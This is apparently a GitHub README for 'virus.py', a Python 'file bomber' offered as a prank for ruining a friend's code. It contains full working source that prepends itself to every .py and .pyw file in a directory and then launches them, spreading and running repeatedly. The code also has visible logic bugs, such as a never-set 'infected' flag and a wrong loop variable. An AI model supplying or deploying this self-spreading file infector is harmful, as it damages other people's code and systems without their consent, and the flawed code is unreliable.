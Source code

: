# virus.py
## A Python file bomber
### How it works
So, ever got access to your friend's code, and want to make the code permently unreadable?
Well with this, you can, it's one of the fastest ways to do that, and it also spreads to other files in the dirertory.
### How to use it
You can just copy and paste the code below into the program or copy and paste the code in `main.py`, it's really that easy! (also, the `# VIRUS SAYS HI!` and `# VIRUS SAYS BYE!` are required for it to work.)
```python3
# VIRUS SAYS HI!
import sys
import glob
import os
print('Never gonna give you up\nNever gonna let you down\nNever gonna run around, and desert you\nNever gonna make you cry\nNever gonna say goodbye\nNever gonna tell a lie, or hurt you\n')
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()
self_replicating_part = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        self_replicating_part = True
    if not self_replicating_part:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
python_files = glob.glob('*.py') + glob.glob('*.pyw')
for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    infected = False
    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = False
            break
    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        with open(file, 'w') as f:
            f.writelines(final_code)
for i in python_files:
  os.system(f'python3 {os.path.abspath(file)} $')
# VIRUS SAYS BYE!
```
### License
You can find the license in `LICENSE.md`

